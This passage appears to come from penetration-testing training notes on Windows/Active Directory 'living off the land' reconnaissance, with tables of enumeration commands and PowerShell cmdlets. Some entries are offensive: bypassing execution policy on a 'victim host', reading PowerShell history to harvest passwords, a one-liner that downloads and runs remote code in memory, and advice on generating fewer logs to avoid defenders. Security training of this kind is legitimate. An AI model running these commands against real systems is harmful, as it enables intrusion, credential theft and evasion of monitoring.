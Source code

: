 "living off the land" means only using tools and commands native to Windows/Active Directory. It will also be stealthier then pulling tools into the network.

## Env Commands for Host & Network Recon

First, we'll cover a few basic environmental commands that can be used to give us more information about the host we are on.

#### Basic Enumeration Commands
| **Command**                                             | **Result**                                                                                 |
| ------------------------------------------------------- | ------------------------------------------------------------------------------------------ |
| `hostname`                                              | Prints the PC's Name                                                                       |
| `[System.Environment]::OSVersion.Version`               | Prints out the OS version and revision level                                               |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn` | Prints the patches and hotfixes applied to the host                                        |
| `ipconfig /all`                                         | Prints out network adapter state and configurations                                        |
| `set`                                                   | Displays a list of environment variables for the current session (ran from CMD-prompt)     |
| `echo %USERDOMAIN%`                                     | Displays the domain name to which the host belongs (ran from CMD-prompt)                   |
| `echo %logonserver%`                                    | Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt) |

the `systeminfo` command, will print a summary of the host's information for us in one tidy output. Running one command will generate fewer logs, meaning less of a chance we are noticed on the host by a defender.

## Harnessing PowerShell

PowerShell has been around since 2006 and provides Windows sysadmins with an extensive framework for administering all facets of Windows systems and AD environments. It is a powerful scripting language and can be used to dig deep into systems. PowerShell has many built-in functions and modules we can use on an engagement to recon the host and network and send and receive files.

Let's look at a few of the ways PowerShell can help us.

| **Cmd-Let**                                                                                                                | **Description**                                                                                                                                                                                                                               |
| -------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-Module`                                                                                                               | Lists available modules loaded for use.                                                                                                                                                                                                       |
| `Get-ExecutionPolicy -List`                                                                                                | Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host.                                         |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                                                | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`          | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                       |
| `Get-ChildItem Env: \| ft Key,Value`                                                                                       | Return environment values such as key paths, users, computer information, etc.                                                                                                                                                                |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` | This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                        |
|                                                                                                                            |                                                                                                                                                                                                                                               |
